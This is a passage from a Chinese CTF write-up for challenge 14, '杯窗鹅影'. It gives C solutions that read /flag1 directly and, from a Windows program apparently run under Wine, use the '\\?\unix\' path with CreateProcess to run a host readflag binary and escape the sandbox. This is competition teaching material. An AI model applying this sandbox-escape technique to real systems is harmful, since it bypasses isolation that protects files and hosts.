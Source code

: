 填入提交网站即可获得 flag


<br>

### 14 杯窗鹅影

#### flag1

`fopen` 直接读就可以了

```
#include <stdio.h>
#include <stdlib.h>

int main() {
    // open /flag1 and print it
    FILE* f = fopen("/flag1", "r");
    char buf[100];
    fgets(buf, 100, f);
    printf("%s", buf);
    fclose(f);
    return 0;
}
```

#### flag2

不知道为什么我的电脑上可以，评测机上 `execve` 不行，`execveat` 也不行，而 `execveat` 的汇编也存在 `Permission` 方面的问题

后来尝试用 windows 的 API，把 start.exe 附到代码里，但是评测机上的 start.exe 没有打印输出结果的选项

最后发现用 windows 直接创建进程就可以了

```c
#include <stdio.h>
#include <windows.h>
#include <tlhelp32.h>

int executeFile() {
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(si);

    if (!CreateProcess("\\\\?\\unix\\readflag", NULL, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi)) {
        printf("CreateProcess failed (%d)\n", GetLastError());
        return 1;
    }

    WaitForSingleObject(pi.hProcess, INFINITE);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
}

int main(int argc, char* argv[]) {
    for (int i = 0; i < argc; i++)
        printf("argv[%i]: %s\n", i, argv[i]);
    executeFile();
}
```
